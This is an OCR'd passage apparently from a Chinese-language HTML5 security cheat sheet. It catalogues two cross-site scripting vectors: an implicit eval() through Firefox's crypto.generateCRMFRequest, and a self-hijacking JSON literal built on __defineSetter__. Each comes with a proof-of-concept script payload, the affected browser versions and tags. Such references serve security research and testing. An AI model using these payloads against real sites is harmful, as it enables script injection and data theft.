 *   [`developer.mozilla.org/En/Using_web_workers`](https://developer.mozilla.org/En/Using_web_workers)

reporter：.mario

### Firefox crypto 对象 - 隐式 eval()#5test

这个向量披露了火狐中 crypto 对象的一个隐式 eval()

```
<script>crypto.generateCRMFRequest('CN=0',0,0,null,'alert(1)',384,null,'rsa-dual-use')</script> 
```

*   firefox 2.x
*   firefox 34.0

*   xss

*   dom
*   firefox
*   crypto
*   eval
*   csp
*   proprietary

*   [`developer.mozilla.org/en/JavaScript_crypto`](https://developer.mozilla.org/en/JavaScript_crypto)

reporter：.mario

## 基于 JSON 的向量

### Self-hijacking JSON literals#54test

In case parts of a JSON literal are controlled by user input there's a risk to allow auto-harvesting values from later object members.

```
<script>[{'a':Object.prototype.__defineSetter__('b',function(){alert(arguments[0])}),'b':['secret']}]</script> 
```

*   opera 10.0
*   opera 10.10

*   chrome 4.0

*   chrome 6.0

*   firefox 1.x

*   firefox 3.0.19

*   xss

*   javascript
*   json
*   **definesetter**
*   object
*   prototype
